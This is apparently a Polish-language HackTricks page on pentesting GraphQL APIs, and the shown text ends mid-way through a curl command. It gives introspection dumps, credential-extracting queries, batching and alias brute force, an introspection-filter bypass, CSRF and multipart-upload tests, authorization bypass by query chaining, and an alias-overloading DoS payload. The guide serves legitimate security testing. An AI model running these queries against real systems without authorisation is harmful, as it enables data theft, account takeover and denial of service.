

# GraphQL

{{#include ../../banners/hacktricks-training.md}}

## Wprowadzenie

GraphQL jest **wyróżniany** jako **wydajna alternatywa** dla REST API, oferująca uproszczone podejście do pobierania danych z backendu. W przeciwieństwie do REST, który często wymaga wielu żądań do różnych endpointów w celu zebrania danych, GraphQL umożliwia pobranie wszystkich wymaganych informacji za pomocą **pojedynczego żądania**. Takie usprawnienie znacząco **przynosi korzyści developerom**, zmniejszając złożoność procesów pobierania danych.<sup>[[3]](#references)</sup>

## GraphQL i bezpieczeństwo

Wraz z pojawieniem się nowych technologii, w tym GraphQL, pojawiają się również nowe podatności. Należy pamiętać, że **GraphQL domyślnie nie zawiera mechanizmów uwierzytelniania**. Odpowiedzialność za wdrożenie takich zabezpieczeń spoczywa na developerach. Bez odpowiedniego uwierzytelniania endpointy GraphQL mogą ujawniać wrażliwe informacje nieuwierzytelnionym użytkownikom, stwarzając poważne ryzyko bezpieczeństwa.<sup>[[1]](#references)</sup>

### Directory Brute Force Attacks i GraphQL

W celu wykrycia ujawnionych instancji GraphQL zaleca się uwzględnienie określonych ścieżek w directory brute force attacks. Są to:<sup>[[5]](#references)</sup>

- `/graphql`
- `/graphiql`
- `/graphql.php`
- `/graphql/console`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`

Zidentyfikowanie otwartych instancji GraphQL umożliwia zbadanie obsługiwanych queries. Jest to kluczowe dla zrozumienia danych dostępnych za pośrednictwem endpointu. System introspekcji GraphQL ułatwia to, szczegółowo opisując queries obsługiwane przez schemat. Więcej informacji na ten temat można znaleźć w dokumentacji GraphQL dotyczącej introspekcji: [**GraphQL: A query language for APIs.**](https://graphql.org/learn/introspection/)<sup>[[20]](#references)</sup>

### Fingerprint

Narzędzie [**graphw00f**](https://github.com/dolevf/graphw00f) potrafi wykryć, który silnik GraphQL jest używany na serwerze, a następnie wyświetla przydatne informacje dla audytora bezpieczeństwa.

#### Universal queries <a href="#universal-queries" id="universal-queries"></a>

Aby sprawdzić, czy URL jest usługą GraphQL, można wysłać **universal query** `query{__typename}`. Jeśli odpowiedź zawiera `{"data": {"__typename": "Query"}}`, potwierdza to, że URL hostuje endpoint GraphQL. Metoda ta opiera się na polu `__typename` GraphQL, które ujawnia typ odpytywanego obiektu.
```javascript
query{__typename}
```
### Podstawowa enumeracja

GraphQL zwykle obsługuje **GET**, **POST** (x-www-form-urlencoded) oraz **POST** (json). Ze względów bezpieczeństwa zaleca się jednak zezwalać wyłącznie na json, aby zapobiegać atakom CSRF.

#### Introspection

Aby użyć introspection do odkrycia informacji o schemacie, wykonaj zapytanie dotyczące pola `__schema`. To pole jest dostępne w typie root wszystkich zapytań.
```bash
query={__schema{types{name,fields{name}}}}
```
Dzięki temu zapytaniu znajdziesz nazwy wszystkich używanych typów:

.png>)
```bash
query={__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}
```
Za pomocą tego zapytania można wyodrębnić wszystkie typy, ich pola oraz argumenty (a także typ każdego argumentu). Będzie to bardzo przydatne do ustalenia sposobu wykonywania zapytań do bazy danych.

.png>)

**Błędy**

Warto sprawdzić, czy **błędy** będą **wyświetlane**, ponieważ mogą dostarczyć przydatnych **informacji.**
```
?query={__schema}
?query={}
?query={thisdefinitelydoesnotexist}
```
.png>)

**Enumerate Schema bazy danych za pomocą Introspection**

> [!TIP]
> Jeśli Introspection jest włączona, ale powyższe zapytanie nie działa, spróbuj usunąć dyrektywy `onOperation`, `onFragment` i `onField` ze struktury query.
```bash
#Full introspection query

query IntrospectionQuery {
__schema {
queryType {
name
}
mutationType {
name
}
subscriptionType {
name
}
types {
...FullType
}
directives {
name
description
args {
...InputValue
}
onOperation  #Often needs to be deleted to run query
onFragment   #Often needs to be deleted to run query
onField      #Often needs to be deleted to run query
}
}
}

fragment FullType on __Type {
kind
name
description
fields(includeDeprecated: true) {
name
description
args {
...InputValue
}
type {
...TypeRef
}
isDeprecated
deprecationReason
}
inputFields {
...InputValue
}
interfaces {
...TypeRef
}
enumValues(includeDeprecated: true) {
name
description
isDeprecated
deprecationReason
}
possibleTypes {
...TypeRef
}
}

fragment InputValue on __InputValue {
name
description
type {
...TypeRef
}
defaultValue
}

fragment TypeRef on __Type {
kind
name
ofType {
kind
name
ofType {
kind
name
ofType {
kind
name
}
}
}
}
```
Zapytanie introspekcji inline:
```
/?query=fragment%20FullType%20on%20Type%20{+%20%20kind+%20%20name+%20%20description+%20%20fields%20{+%20%20%20%20name+%20%20%20%20description+%20%20%20%20args%20{+%20%20%20%20%20%20...InputValue+%20%20%20%20}+%20%20%20%20type%20{+%20%20%20%20%20%20...TypeRef+%20%20%20%20}+%20%20}+%20%20inputFields%20{+%20%20%20%20...InputValue+%20%20}+%20%20interfaces%20{+%20%20%20%20...TypeRef+%20%20}+%20%20enumValues%20{+%20%20%20%20name+%20%20%20%20description+%20%20}+%20%20possibleTypes%20{+%20%20%20%20...TypeRef+%20%20}+}++fragment%20InputValue%20on%20InputValue%20{+%20%20name+%20%20description+%20%20type%20{+%20%20%20%20...TypeRef+%20%20}+%20%20defaultValue+}++fragment%20TypeRef%20on%20Type%20{+%20%20kind+%20%20name+%20%20ofType%20{+%20%20%20%20kind+%20%20%20%20name+%20%20%20%20ofType%20{+%20%20%20%20%20%20kind+%20%20%20%20%20%20name+%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}++query%20IntrospectionQuery%20{+%20%20schema%20{+%20%20%20%20queryType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20mutationType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20types%20{+%20%20%20%20%20%20...FullType+%20%20%20%20}+%20%20%20%20directives%20{+%20%20%20%20%20%20name+%20%20%20%20%20%20description+%20%20%20%20%20%20locations+%20%20%20%20%20%20args%20{+%20%20%20%20%20%20%20%20...InputValue+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}
```
Ostatnia linia kodu to zapytanie graphql, które zrzuci wszystkie metainformacje z graphql (nazwy obiektów, parametry, typy...)

.png>)

Jeśli introspection jest włączone, możesz użyć [**GraphQL Voyager**](https://github.com/APIs-guru/graphql-voyager), aby wyświetlić wszystkie opcje w GUI.<sup>[[2]](#references)</sup>

### Wykonywanie zapytań

Teraz, gdy wiemy, jakie informacje są zapisane w bazie danych, spróbujmy **wyodrębnić pewne wartości**.

W introspection możesz znaleźć **obiekt, dla którego możesz bezpośrednio wykonać query** (ponieważ nie możesz wykonać query dla obiektu tylko dlatego, że istnieje). Na poniższym obrazie widać, że "_queryType_" nazywa się "_Query_", a jednym z pól obiektu "_Query_" jest "_flags_", który również jest typem obiektu. Dlatego możesz wykonać query dla obiektu flag.


Zwróć uwagę, że typ query "_flags_" to "_Flags_", a ten obiekt jest zdefiniowany poniżej:

.png>)

Możesz zobaczyć, że obiekty "_Flags_" składają się z **name** i .**value**. Następnie możesz pobrać wszystkie nazwy i wartości flag za pomocą query:
```javascript
query={flags{name, value}}
```
Zauważ, że w przypadku, gdy **obiekt do zapytania** jest **typem** **prymitywnym**, takim jak **string**, jak w poniższym przykładzie

.png>)

Możesz po prostu wykonać zapytanie za pomocą:
```javascript
query = { hiddenFlags }
```
W innym przykładzie wewnątrz obiektu typu "_Query_" znajdowały się 2 obiekty: "_user_" i "_users_".\
Jeśli te obiekty nie wymagają żadnego argumentu do wyszukiwania, można **pobrać wszystkie zawarte w nich informacje**, po prostu **prosząc** o żądane dane. W tym przykładzie z Internetu można było wyodrębnić zapisane nazwy użytkowników i hasła:

.png>)

Jednak w tym przykładzie próba wykonania tej operacji powoduje wystąpienie tego **błędu**:

.png>)

Wygląda na to, że wyszukiwanie będzie wykonywane przy użyciu argumentu "_**uid**_" typu _**Int**_.\
W każdym razie już o tym wiedzieliśmy, ponieważ w sekcji [Basic Enumeration](graphql.md#basic-enumeration) przedstawiono query pokazujące wszystkie potrzebne informacje: `query={__schema{types{name,fields{name, args{name,description,type{name, kind, ofType{name, kind}}}}}}}`

Jeśli przeczytasz obraz przedstawiony po uruchomieniu tego query, zobaczysz, że "_**user**_" miał **arg** "_**uid**_" typu _Int_.

Wykonując więc lekki _**uid**_ bruteforce, znalazłem, że dla _**uid**=**1**_ zostały zwrócone nazwa użytkownika i hasło:\
`query={user(uid:1){user,password}}`

.png>)

Zauważ, że **odkryłem**, iż mogę poprosić o **parametry** "_**user**_" i "_**password**_", ponieważ jeśli spróbuję wyszukać coś, co nie istnieje (`query={user(uid:1){noExists}}`), otrzymam ten błąd:

.png>)

Podczas **fazy enumeracji** odkryłem również, że obiekt "_**dbuser**_" miał pola "_**user**_" i "_**password**_".

**Query string dump trick (dzięki @BinaryShadow\_)**

Jeśli można wyszukiwać według typu string, na przykład: `query={theusers(description: ""){username,password}}`, a następnie **wyszukać pusty string**, spowoduje to **zrzucenie wszystkich danych**. (_Zauważ, że ten przykład nie jest powiązany z przykładem z tutoriali; na potrzeby tego przykładu załóżmy, że można wyszukiwać przy użyciu "**theusers**" według pola String o nazwie "**description**"_).

### Wyszukiwanie

W tej konfiguracji **baza danych** zawiera **osoby** i **filmy**. **Osoby** są identyfikowane za pomocą swojego **emaila** i **imienia**, a **filmy** za pomocą swojej **nazwy** i **oceny**. **Osoby** mogą być znajomymi i mogą mieć filmy, co wskazuje na relacje w bazie danych.

Możesz **wyszukiwać** osoby **według** **nazwy** i pobierać ich adresy email:
```javascript
{
searchPerson(name: "John Doe") {
email
}
}
```
Możesz **wyszukiwać** osoby **według** **nazwy** i pobierać ich **zasubskrybowane** **filmy**:
```javascript
{
searchPerson(name: "John Doe") {
email
subscribedMovies {
edges {
node {
name
}
}
}
}
}
```
Zwróć uwagę, jak wskazano pobranie `name` obiektu `subscribedMovies` danej osoby.

Możesz również **wyszukiwać kilka obiektów jednocześnie**. W tym przypadku wykonywane jest wyszukiwanie 2 filmów:
```javascript
{
searchPerson(subscribedMovies: [{name: "Inception"}, {name: "Rocky"}]) {
name
}
}r
```
Lub nawet **relacje między kilkoma różnymi obiektami przy użyciu aliasów**:
```javascript
{
johnsMovieList: searchPerson(name: "John Doe") {
subscribedMovies {
edges {
node {
name
}
}
}
}
davidsMovieList: searchPerson(name: "David Smith") {
subscribedMovies {
edges {
node {
name
}
}
}
}
}
```
### Mutacje

**Mutacje służą do wprowadzania zmian po stronie serwera.**

W **introspection** można znaleźć **zadeklarowane** **mutacje**. Na poniższym obrazie "_MutationType_" nosi nazwę "_Mutation_", a obiekt "_Mutation_" zawiera nazwy mutacji (w tym przypadku takich jak "_addPerson_"):

.png>)

W tej konfiguracji **database** zawiera **persons** i **movies**. **Persons** są identyfikowane za pomocą ich **email** i **name**, a **movies** za pomocą ich **name** i **rating**. **Persons** mogą być znajomymi innych osób, a także posiadać filmy, co wskazuje na relacje w obrębie bazy danych.

Mutacja służąca do **tworzenia nowych** filmów w bazie danych może wyglądać następująco (w tym przykładzie mutacja nosi nazwę `addMovie`):
```javascript
mutation {
addMovie(name: "Jumanji: The Next Level", rating: "6.8/10", releaseYear: 2019) {
movies {
name
rating
}
}
}
```
**Zwróć uwagę, że w zapytaniu wskazane są zarówno wartości, jak i typ danych.**

Dodatkowo baza danych obsługuje operację **mutation** o nazwie `addPerson`, która umożliwia tworzenie **persons** wraz z ich powiązaniami z istniejącymi **friends** i **movies**. Należy pamiętać, że friends i movies muszą już istnieć w bazie danych, zanim będzie można połączyć je z nowo utworzoną osobą.
```javascript
mutation {
addPerson(name: "James Yoe", email: "jy@example.com", friends: [{name: "John Doe"}, {email: "jd@example.com"}], subscribedMovies: [{name: "Rocky"}, {name: "Interstellar"}, {name: "Harry Potter and the Sorcerer's Stone"}]) {
person {
name
email
friends {
edges {
node {
name
email
}
}
}
subscribedMovies {
edges {
node {
name
rating
releaseYear
}
}
}
}
}
}
```
### Directive Overloading

Jak wyjaśniono w [**jednym z vulns opisanych w tym raporcie**](https://www.landh.tech/blog/20240304-google-hack-50000/), directive overloading polega na wywołaniu directive nawet miliony razy, aby zmusić serwer do wykonywania operacji aż do momentu, w którym możliwe będzie przeprowadzenie DoS.<sup>[[13]](#references)</sup>

### Batching brute-force w 1 żądaniu API

Te informacje pochodzą z [https://lab.wallarm.com/graphql-batching-attack/](https://lab.wallarm.com/graphql-batching-attack/).<sup>[[14]](#references)</sup>\
Uwierzytelnianie za pośrednictwem GraphQL API poprzez **jednoczesne wysyłanie wielu zapytań z różnymi danymi uwierzytelniającymi** w celu ich sprawdzenia. To klasyczny brute force, ale teraz można wysłać więcej niż jedną parę login/hasło w jednym żądaniu HTTP dzięki funkcji GraphQL batching. Takie podejście może zmylić zewnętrzne aplikacje monitorujące rate, sprawiając wrażenie, że wszystko jest w porządku i że nie ma bota przeprowadzającego brute-forcing w celu odgadnięcia haseł.

Poniżej znajduje się najprostsza demonstracja żądania uwierzytelniania aplikacji z **3 różnymi parami email/hasło jednocześnie**. Oczywiście w ten sam sposób można wysłać tysiące par w jednym żądaniu:

.png>)

Jak widać na zrzucie ekranu odpowiedzi, pierwsze i trzecie żądanie zwróciły _null_ i odzwierciedliły odpowiednie informacje w sekcji _error_. **Druga mutation zawierała prawidłowe dane uwierzytelniające**, a odpowiedź zawierała prawidłowy token sesji uwierzytelniania.

 (1).png>)

## GraphQL Without Introspection

Coraz więcej **endpointów graphql wyłącza introspection**. Jednak błędy zgłaszane przez graphql po otrzymaniu nieoczekiwanego żądania wystarczają narzędziom takim jak [**clairvoyance**](https://github.com/nikitastupin/clairvoyance), aby odtworzyć większość schematu.

Ponadto rozszerzenie Burp Suite [**GraphQuail**](https://github.com/forcesunseen/graphquail) **obserwuje żądania GraphQL API przechodzące przez Burp** i **buduje** wewnętrzny GraphQL **schema** przy każdym wykryciu nowego zapytania. Może również udostępniać schema dla GraphiQL i Voyager. Rozszerzenie zwraca fałszywą odpowiedź po otrzymaniu zapytania introspection. W rezultacie GraphQuail pokazuje wszystkie zapytania, argumenty i pola dostępne do użycia w API. Więcej informacji można znaleźć [**tutaj**](https://blog.forcesunseen.com/graphql-security-testing-without-a-schema).<sup>[[15]](#references)</sup>

Przydatny **wordlist** do wykrywania [**GraphQL entities można znaleźć tutaj**](https://github.com/Escape-Technologies/graphql-wordlist?).

### Bypassing GraphQL introspection defences <a href="#bypassing-graphql-introspection-defences" id="bypassing-graphql-introspection-defences"></a>

Aby ominąć ograniczenia dotyczące zapytań introspection w API, skuteczne okazuje się wstawienie **znaku specjalnego za słowem kluczowym `__schema`**. Metoda ta wykorzystuje typowe przeoczenia deweloperów w wzorcach regex, które mają blokować introspection poprzez skupienie się na słowie kluczowym `__schema`. Dodanie znaków takich jak **spacje, nowe linie i przecinki**, które GraphQL ignoruje, ale które mogą nie być uwzględnione w regex, pozwala ominąć ograniczenia. Na przykład zapytanie introspection z nową linią po `__schema` może ominąć takie zabezpieczenia:
```bash
# Example with newline to bypass
{
"query": "query{__schema
{queryType{name}}}"
}
```
Jeśli się nie powiedzie, rozważ alternatywne metody żądań, takie jak **żądania GET** lub **POST z `x-www-form-urlencoded`**, ponieważ ograniczenia mogą dotyczyć wyłącznie żądań POST.

### Wypróbuj WebSockets

Jak wspomniano w [**tym wystąpieniu**](https://www.youtube.com/watch?v=tIo_t5uUK50), sprawdź, czy możliwe jest połączenie z graphQL za pośrednictwem WebSockets, ponieważ może to umożliwić ominięcie potencjalnego WAF i sprawić, że komunikacja WebSocket ujawni schemat graphQL:<sup>[[16]](#references)</sup>.
```javascript
ws = new WebSocket("wss://target/graphql", "graphql-ws")
ws.onopen = function start(event) {
var GQL_CALL = {
extensions: {},
query: `
{
__schema {
_types {
name
}
}
}`,
}

var graphqlMsg = {
type: "GQL.START",
id: "1",
payload: GQL_CALL,
}
ws.send(JSON.stringify(graphqlMsg))
}
```
### **Wykrywanie ujawnionych struktur GraphQL**

Gdy introspection jest wyłączona, przeanalizowanie kodu źródłowego strony internetowej pod kątem wstępnie załadowanych queries w bibliotekach JavaScript jest użyteczną strategią. Queries te można znaleźć za pomocą zakładki `Sources` w narzędziach deweloperskich, uzyskując wgląd w schemat API i ujawniając potencjalnie **ujawnione wrażliwe queries**. Polecenia służące do wyszukiwania w narzędziach deweloperskich to:
```javascript
Inspect/Sources/"Search all files"
file:* mutation
file:* query
```
### Rekonstrukcja schematu na podstawie błędów i fingerprinting silnika (InQL v6.1+)

Gdy introspekcja jest zablokowana, **InQL v6.1+** może teraz rekonstruować osiągalny schemat wyłącznie na podstawie informacji zwrotnych z błędów. Nowy *schema bruteforcer* grupuje kandydackie nazwy pól/argumentów z konfigurowalnego wordlist i wysyła je w operacjach wielopolowych, aby ograniczyć liczbę żądań HTTP. Przydatne wzorce błędów są automatycznie zbierane:<sup>[[9]](#references)</sup>

- `Field 'bugs' not found on type 'inql'` potwierdza istnienie typu nadrzędnego, jednocześnie odrzucając nieprawidłowe nazwy pól.
- `Argument 'contribution' is required` pokazuje, że argument jest wymagany, i ujawnia jego pisownię.
- Wskazówki sugestii, takie jak `Did you mean 'openPR'?`, są ponownie dodawane do kolejki jako zweryfikowani kandydaci.
- Poprzez celowe wysyłanie wartości z nieprawidłowym typem prymitywnym (np. liczb całkowitych zamiast stringów) bruteforcer wywołuje błędy niezgodności typów, które ujawniają rzeczywistą sygnaturę typu, w tym wrappery list/obiektów, takie jak `[Episode!]`.

Bruteforcer kontynuuje rekurencję dla każdego typu, dla którego znajdzie nowe pola, więc wordlist łączący ogólne nazwy GraphQL z przypuszczeniami specyficznymi dla aplikacji może ostatecznie zmapować duże fragmenty schematu bez introspekcji. Czas działania zależy głównie od rate limiting i liczby kandydatów, dlatego dostrojenie ustawień InQL (wordlist, batch size, throttling, retries) ma kluczowe znaczenie dla bardziej stealthowych działań.

W tej samej wersji InQL dostarcza **GraphQL engine fingerprinter** (wykorzystujący sygnatury z narzędzi takich jak `graphw00f`). Moduł wysyła celowo nieprawidłowe dyrektywy/zapytania i klasyfikuje backend, dopasowując dokładną treść błędu. Na przykład:<sup>[[9]](#references)</sup>
```graphql
query @deprecated {
__typename
}
```
- Apollo odpowiada `Directive "@deprecated" may not be used on QUERY.`
- GraphQL Ruby odpowiada `'@deprecated' can't be applied to queries`.

Po rozpoznaniu engine InQL wyświetla odpowiedni wpis z [GraphQL Threat Matrix](https://github.com/nicholasaleks/graphql-threat-matrix), pomagając testerom ustalać priorytety słabości występujących w danej rodzinie serwerów (domyślne zachowanie introspekcji, limity głębokości, luki CSRF, przesyłanie plików itp.).<sup>[[9]](#references)[[10]](#references)</sup>

Na koniec **automatyczne generowanie zmiennych** usuwa klasyczną przeszkodę podczas przechodzenia do Burp Repeater/Intruder. Za każdym razem, gdy operacja wymaga JSON-a ze zmiennymi, InQL wstrzykuje rozsądne wartości domyślne, dzięki czemu żądanie przechodzi walidację schematu już przy pierwszym wysłaniu:<sup>[[9]](#references)</sup>
```text
"String"  -> "exampleString"
"Int"     -> 42
"Float"   -> 3.14
"Boolean" -> true
"ID"      -> "123"
ENUM      -> first declared value
```
Zagnieżdżone obiekty wejściowe dziedziczą to samo mapowanie, dzięki czemu natychmiast otrzymujesz składniowo i semantycznie poprawny payload, który można poddać fuzzingowi pod kątem SQLi/NoSQLi/SSRF/logic bypasses bez konieczności ręcznego reverse-engineeringu każdego argumentu.

## CSRF w GraphQL

Jeśli nie wiesz, czym jest CSRF, przeczytaj następującą stronę:

{{#ref}}
../../pentesting-web/csrf-cross-site-request-forgery.md
{{#endref}}

Można znaleźć kilka endpointów GraphQL **skonfigurowanych bez tokenów CSRF.**

Pamiętaj, że requesty GraphQL są zwykle wysyłane za pomocą requestów POST z użyciem Content-Type **`application/json`**.
```javascript
{"operationName":null,"variables":{},"query":"{\n  user {\n    firstName\n    __typename\n  }\n}\n"}
```
Jednak większość endpointów GraphQL obsługuje również żądania POST w formacie **`form-urlencoded`**:
```javascript
query=%7B%0A++user+%7B%0A++++firstName%0A++++__typename%0A++%7D%0A%7D%0A
```
Dlatego, ponieważ żądania CSRF, takie jak poprzednie, są wysyłane **bez żądań preflight**, możliwe jest **wykonywanie** **zmian** w GraphQL poprzez nadużycie CSRF.

Należy jednak pamiętać, że nową domyślną wartością cookie flagi `samesite` w Chrome jest `Lax`. Oznacza to, że cookie będzie wysyłane ze strony third party wyłącznie w żądaniach GET.

Należy również pamiętać, że zwykle możliwe jest wysłanie żądania **query** również jako żądania **GET**, a token CSRF może nie być walidowany w żądaniu GET.

Ponadto możliwe może być wykorzystanie [**ataku XS-Search**](../../pentesting-web/xs-search/index.html) do eksfiltracji treści z endpointu GraphQL z użyciem poświadczeń użytkownika.

Więcej informacji znajdziesz w [**oryginalnym poście tutaj**](https://blog.doyensec.com/2021/05/20/graphql-csrf.html).<sup>[[17]](#references)</sup>

### Nadużycie multipart uploadu (`Upload` scalar)

Wiele stosów GraphQL implementuje **GraphQL multipart request specification** w celu obsługi scalarów `Upload`.<sup>[[11]](#references)</sup> Z ofensywnego punktu widzenia za każdym razem, gdy widzisz `scalar Upload`, `multipart/form-data` lub mutacje takie jak `uploadAvatar`, `createMediaItem` albo `import*`, powinieneś testować więcej niż tylko podstawową walidację plików:

- **CSRF przez multipart**: `multipart/form-data` jest **simple request**, więc przeglądarki mogą wysyłać mutacje uploadu cross-origin **bez preflight**. Jest to szczególnie istotne, gdy aplikacja twierdzi, że w innych miejscach akceptuje wyłącznie JSON.
- **Ponowne użycie zmiennej uploadu**: GraphQL pozwala odwoływać się do tej samej zmiennej wiele razy. Jeśli backend nie wymusza jednokrotnego użycia zmiennych uploadu, ponowne użycie jednego strumienia pliku w kilku argumentach resolvera może wywołać podwójne odczyty, przedwczesne wyczerpanie strumienia lub buforowanie po stronie serwera i presję na pamięć.
- **Osierocone części / nadmiarowe pliki**: niektóre parsery multipart buforują każdy otrzymany plik przed sprawdzeniem, czy faktycznie jest on wskazany w polu `map`. Wysyłanie dużych, nieużywanych części jest więc dobrym sposobem na sprawdzenie możliwości wyczerpania miejsca na dysku lub pamięci RAM.

Szybki test **ponownego użycia zmiennej**:
```bash
curl -X POST https://target/graphql \
-F 'operations={"query":"mutation($f: Upload!){a:uploadAvatar(file:$f){id} b:uploadAvatar(file:$f){id}}","variables":{"f":null}}' \
-F 'map={"0":["variables.f"]}' \
-F '0=@/tmp/poc.bin'
```
Spróbuj również użyć zniekształconych obiektów `map` z **dodatkowymi częściami plików** (na przykład drugą częścią, do której nie ma żadnych odwołań) i obserwuj różnice w czasie odpowiedzi, wzroście rozmiaru plików tymczasowych lub błędach reverse-proxy.

## Cross-site WebSocket hijacking w GraphQL

Podobnie jak w przypadku podatności CRSF wykorzystujących GraphQL, możliwe jest również przeprowadzenie **Cross-site WebSocket hijacking w celu wykorzystania uwierzytelniania GraphQL z niezabezpieczonymi ciasteczkami** i nakłonienia użytkownika do wykonania nieoczekiwanych działań w GraphQL.

Więcej informacji znajdziesz tutaj:

{{#ref}}
../../pentesting-web/websocket-attacks.md
{{#endref}}

## Autoryzacja w GraphQL

Wiele funkcji GraphQL zdefiniowanych w endpoint może sprawdzać jedynie uwierzytelnianie żądającego, ale nie jego autoryzację.

Modyfikacja zmiennych wejściowych zapytania może prowadzić do [leaked](https://hackerone.com/reports/792927) poufnych danych konta.<sup>[[19]](#references)</sup>

Mutation może nawet prowadzić do przejęcia konta poprzez próbę modyfikacji danych innego konta.
```javascript
{
"operationName":"updateProfile",
"variables":{"username":INJECT,"data":INJECT},
"query":"mutation updateProfile($username: String!,...){updateProfile(username: $username,...){...}}"
}
```
### Ominięcie autoryzacji w GraphQL

Łączenie zapytań ([Chaining queries](https://s1n1st3r.gitbook.io/theb10g/graphql-query-authentication-bypass-vuln)) może pozwolić na ominięcie słabego systemu uwierzytelniania.<sup>[[18]](#references)</sup>

W poniższym przykładzie widać, że operacją jest „forgotPassword” i powinna ona wykonywać wyłącznie powiązane z nią zapytanie forgotPassword. Można to obejść, dodając zapytanie na końcu; w tym przypadku dodajemy „register” oraz zmienną użytkownika, aby system zarejestrował go jako nowego użytkownika.

<figure><figcaption></figcaption></figure>

## Persisted queries / APQ nie są granicą bezpieczeństwa

Częstym założeniem blue-team jest to, że **Automatic Persisted Queries (APQ)** uniemożliwiają dotarcie dowolnego GraphQL do serwera, ponieważ klienci zwykle wysyłają wyłącznie hash SHA-256. W praktyce APQ jest głównie **optymalizacją przepustowości/opóźnień**, a nie safelistą:<sup>[[12]](#references)</sup>

1. wysłanie wyłącznie hasha i `extensions.persistedQuery`
2. jeśli serwer odpowie `PersistedQueryNotFound`, ponowne wysłanie tego samego żądania **z pełnym ciągiem `query`**
3. wiele wdrożeń w stylu Apollo wykona je i zapisze tę operację w cache na potrzeby kolejnych żądań

Oznacza to, że jeśli cel ma włączone wyłącznie APQ, często nadal można przesłać **nowe zapytania introspekcyjne, aliasy, głębokie fragmenty lub mutations brute-force** już w pierwszym żądaniu. Prawdziwa safelista zwykle wymaga **wstępnie zarejestrowanej listy persisted queries** oraz odrzucania surowych ciągów operacji.
```json
{
"operationName": "probe",
"variables": null,
"extensions": {
"persistedQuery": {
"version": 1,
"sha256Hash": "<unknown-hash>"
}
}
}
```
Jeśli odpowiedź zawiera `PersistedQueryNotFound`, natychmiast ponów żądanie, dodając pełne pole `query`. Należy również pamiętać, że niektóre clients używają **GET** dla żądań APQ zawierających tylko hash i przechodzą na pełne zapytanie dopiero wtedy, gdy hash nie zostanie znaleziony, dlatego reguły WAF lub cache oparte na ścieżce zawierającej tylko hash mogą przeoczyć niebezpieczne żądanie.

## Omijanie Rate Limits za pomocą Aliases w GraphQL

W GraphQL aliases to zaawansowana funkcja, która pozwala na **jawne nazywanie właściwości** podczas wykonywania żądania API. Możliwość ta jest szczególnie przydatna do pobierania **wielu instancji tego samego typu** obiektu w ramach jednego żądania. Aliases można wykorzystać do obejścia ograniczenia, które uniemożliwia obiektom GraphQL posiadanie wielu właściwości o tej samej nazwie.

Szczegółowe informacje na temat aliases w GraphQL można znaleźć w następującym materiale: [Aliases](https://portswigger.net/web-security/graphql/what-is-graphql#aliases).

Chociaż głównym celem aliases jest ograniczenie konieczności wykonywania wielu wywołań API, zidentyfikowano również niezamierzone zastosowanie, w którym aliases mogą służyć do przeprowadzania brute force attacks na endpoint GraphQL. Jest to możliwe, ponieważ niektóre endpointy są chronione przez rate limiters zaprojektowane w celu powstrzymywania brute force attacks poprzez ograniczanie **liczby żądań HTTP**. Takie rate limiters mogą jednak nie uwzględniać liczby operacji w ramach każdego żądania. Ponieważ aliases pozwalają na umieszczenie wielu zapytań w jednym żądaniu HTTP, mogą one obchodzić takie mechanizmy rate limiting.

Rozważ poniższy przykład, który pokazuje, jak aliased queries można wykorzystać do sprawdzania poprawności store discount codes. Metoda ta może ominąć rate limiting, ponieważ łączy kilka zapytań w jedno żądanie HTTP, potencjalnie umożliwiając jednoczesne sprawdzenie wielu discount codes.
```bash
# Example of a request utilizing aliased queries to check for valid discount codes
query isValidDiscount($code: Int) {
isvalidDiscount(code:$code){
valid
}
isValidDiscount2:isValidDiscount(code:$code){
valid
}
isValidDiscount3:isValidDiscount(code:$code){
valid
}
}
```
## DoS w GraphQL

### Alias Overloading

**Alias Overloading** to podatność GraphQL, w której attackers przeciążają query wieloma aliases dla tego samego field, powodując wielokrotne wykonywanie tego field przez backend resolver. Może to przeciążyć zasoby serwera i doprowadzić do **Denial of Service (DoS)**. Na przykład w poniższym query to samo field (`expensiveField`) jest żądane 1,000 razy przy użyciu aliases, zmuszając backend do obliczenia go 1,000 razy, co może potencjalnie wyczerpać CPU lub pamięć:
```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "Content-Type: application/json" \
-d '{"query": "{ alias0:__typename \nalias1:__typename \nalias2:__typename \nalias3:__typename \nalias4:__typename \nalias5:__typename \nalias6:__typename \nalias7:__typename \nalias8:__typename \nalias9:__typename \nalias10:__typename \nalias11:__typename \nalias12:__typename \nalias13:__typename \nalias14:__typename \nalias15:__typename \nalias16:__typename \nalias17:__typename \nalias18:__typename \nalias19:__typename \nalias20:__typename \nalias21:__typename \nalias22:__typename \nalias23:__typename \nalias24:__typename \nalias25:__typename \nalias26:__typename \nalias27:__typename \nalias28:__typename \nalias29:__typename \nalias30:__typename \nalias31:__typename \nalias32:__typename \nalias33:__typename \nalias34:__typename \nalias35:__typename \nalias36:__typename \nalias37:__typename \nalias38:__typename \nalias39:__typename \nalias40:__typename \nalias41:__typename \nalias42:__typename \nalias43:__typename \nalias44:__typename \nalias45:__typename \nalias46:__typename \nalias47:__typename \nalias48:__typename \nalias49:__typename \nalias50:__typename \nalias51:__typename \nalias52:__typename \nalias53:__typename \nalias54:__typename \nalias55:__typename \nalias56:__typename \nalias57:__typename \nalias58:__typename \nalias59:__typename \nalias60:__typename \nalias61:__typename \nalias62:__typename \nalias63:__typename 